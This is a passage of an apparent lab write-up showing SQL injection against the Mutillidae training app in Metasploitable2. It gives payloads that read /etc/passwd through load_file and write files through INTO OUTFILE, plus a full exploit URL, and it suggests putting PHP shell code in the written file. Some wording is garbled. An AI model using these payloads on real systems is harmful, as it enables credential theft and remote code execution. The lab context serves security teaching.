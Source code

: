 # Reading and writing files on the web-server:

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/Irenejecinthamerlin/sqlinjection/assets/128350225/25cd2327-e091-4566-b2ed-48491fa6d4af)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
